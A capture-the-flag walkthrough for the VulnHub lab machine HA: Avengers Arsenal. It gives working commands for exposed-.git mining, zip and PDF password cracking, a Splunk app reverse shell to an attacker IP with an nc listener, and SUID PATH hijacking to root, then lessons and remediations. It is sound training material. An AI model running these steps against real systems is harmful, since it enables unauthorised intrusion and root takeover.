




# HA: Avengers Arsenal — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.101 |
| **Attacker IP** | 192.168.1.107 |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | 5 flags (Captain America's Shield, Loki's Scepter, Thor's Mjølnir, Storm Breaker, Spreadsheet flag) |
| **Source** | [HackingArticles](https://www.hackingarticles.in/ha-avengers-arsenal-vulnhub-walkthrough/) |

## Attack Summary

HA: Avengers Arsenal is a multi-flag CTF with an Avengers theme. The path spans several techniques: **exposed `.git` directory** leaking a GitHub repo with a Base64-encoded flag in commit history, **steganography via whitespace encoding** (Spammimic), **password cracking** of a zip and PDF using a targeted wordlist built with CUPP, **hex-encoded credentials** hidden in HTML source granting Splunk admin access, and **PATH hijacking** via a SUID binary that calls `ifconfig` by relative path. A final flag hides in a spreadsheet cell.

## Methodology

1. Nmap scan reveals HTTP (80), Splunk (8000/8089)
2. Git directory enumeration, GitHub clone, commit history analysis
3. Directory brute-force, QR code discovery, Spammimic decoding
4. CUPP wordlist generation, zip/PDF cracking with John the Ripper
5. HTML source analysis, hex decoding for Splunk credentials
6. Splunk reverse shell via `splunk_shells` app
7. SUID PATH hijacking to root
8. Spreadsheet cell analysis

---

## Step 1: Host Discovery

```bash
netdiscover -r 192.168.1.0/24
```

Target at `192.168.1.101`.

## Step 2: Port Scanning

```bash
nmap -A 192.168.1.101
```



Open ports: **80** (HTTP), **8000** (Splunk web), **8089** (Splunk management). The scan also reveals a `.git` directory and a `/groot` path on port 80.

## Step 3: Flag 1 — Captain America's Shield (Git Enumeration)

The `.git` directory is publicly accessible, revealing a `logs/` folder and HEAD referencing a GitHub repository.

```bash
git clone https://github.com/Hackingzone/hackingarticles.git
cd hackingarticles/
git log
git show 4fb65717a4bdfa8169fb0642abf0f355f7eea048
```

The commit contains a Base64 string. Decode it:

```bash
echo "Q2FwdGFpbiBBbWVyaWNhJ3MgU2hpZWxkOnswNjE3ODZEOUE4QkI4OUEyRkU3NDVERDI2RkUyRTEzQ30=" | base64 -d
```

Output: **Flag 1 — Captain America's Shield**



## Step 4: Flag 2 — Loki's Scepter (Whitespace Steganography)

```bash
dirb http://192.168.1.101
```

Found `/images/` directory. Image `17.jpeg` is a QR code (not linked in the site). Scan it with any QR reader to get the hint: **spammimc**.

Browse to `http://192.168.1.101/spammimc/` — contains `sceptre.txt`. The file appears blank but uses whitespace encoding. Paste its content into the **Spammimic** decoder at `https://www.spammimic.com/decode.shtml`.

Output: **Flag 2 — Loki's Scepter**


## Step 5: Flag 3 — Thor's Mjølnir (Zip/PDF Cracking)

`/groot/` contains `hammer.zip`, which holds a password-protected PDF.

Build a targeted wordlist with CUPP using Tony Stark's profile details found on `/avengersbook.html`:

```bash
cd /opt/cupp && python cupp.py -i
# First Name: tony
# Surname: stark
# Nickname: ironman
# Birthdate: 01052008
```

Crack the zip:

```bash
/usr/share/zip2john hammer.zip > zip_hash
john --wordlist=/opt/cupp/tony.txt zip_hash
# Password: Stark12008
```

Extract the PDF, then crack it:

```bash
/usr/share/pdf2john.pl Mjolnir.pdf > pdf_hash
john --wordlist=/opt/cupp/tony.txt pdf_hash
# Password: Tony_050081
```

Open the PDF with the cracked password to retrieve **Flag 3 — Thor's Mjølnir**.

## Step 6: Splunk Credentials (Hex Decoding)

View the source of `http://192.168.1.101/`. A hidden comment contains a hex-encoded string. Decode it:

```bash
echo "6167656e743a6176656e67657273" | xxd -r -p
# Output: agent:avengers
```

Credentials: `agent` / `avengers`

## Step 7: Splunk Reverse Shell

Log into Splunk at `http://192.168.1.101:8000` with `agent:avengers`.

Download the `splunk_shells` package from TBGSecurity. In Splunk:
1. Navigate to **Manage Apps → Upload app**
2. Upload the `splunk_shells` package
3. Restart Splunk when prompted
4. Set app permissions: readable by everyone, context "All apps"

Start a listener on the attacker machine:

```bash
nc -lvp 1234
```

In the Splunk search bar, trigger the reverse shell:

```
| revshell std 192.168.1.107 1234
```



Upgrade the shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Step 8: Flag 4 — Storm Breaker (SUID PATH Hijacking)

Enumerate SUID binaries:

```bash
find / -perm -u=s -type f 2>/dev/null
```

Found `/opt/ignite`. Running `strings /opt/ignite` reveals it calls `ifconfig` without an absolute path. Exploit by prepending `/tmp` to PATH:

```bash
cd /tmp
echo "/bin/bash" > ifconfig
chmod 777 ifconfig
export PATH=/tmp:$PATH
/opt/ignite
id
# uid=0(root)
```

```bash
cd /root && ls && cat final.txt
```

Output: **Flag 4 — Storm Breaker**



## Step 9: Flag 5 — Spreadsheet

In `/opt/` find `yakahints.txt` and `yaka.xlsx`.

```bash
cat /opt/yakahints.txt
# "Guardians of The Galaxy Vol. 1 Release date is 20 14"
```

Copy the spreadsheet to the web root:

```bash
cp /opt/yaka.xlsx /var/www/html/
```

Download it to the attacker machine and open in LibreOffice Calc. The sheet appears blank, but the hint "20 14" means row 20, column 14 (column N). Select cell **N20** and check the formula bar for the hidden flag.

---

## Lessons Learned

- **Exposed `.git` directories** leak full commit history, including previously deleted sensitive data.
- **Whitespace steganography** (Spammimic) can hide data in blank-looking text files.
- **Targeted wordlists with CUPP** are far more effective than generic lists for personal passwords.
- **PATH hijacking** via SUID binaries calling commands by relative name is a classic privesc vector.
- Hiding data in **spreadsheet cell formulas** is an uncommon but valid data-hiding technique.

---

## Remediation

| Vulnerability | Fix |
|---|---|
| Exposed `.git` directory | Block access to `.git` in web server config (`Deny from all` or location block) |
| Splunk weak credentials | Enforce strong passwords and disable default accounts |
| SUID binary with relative PATH | Use absolute paths in all SUID/setuid binaries; audit with `find / -perm -u=s` |
| Credentials in HTML source | Never embed credentials in client-facing HTML |
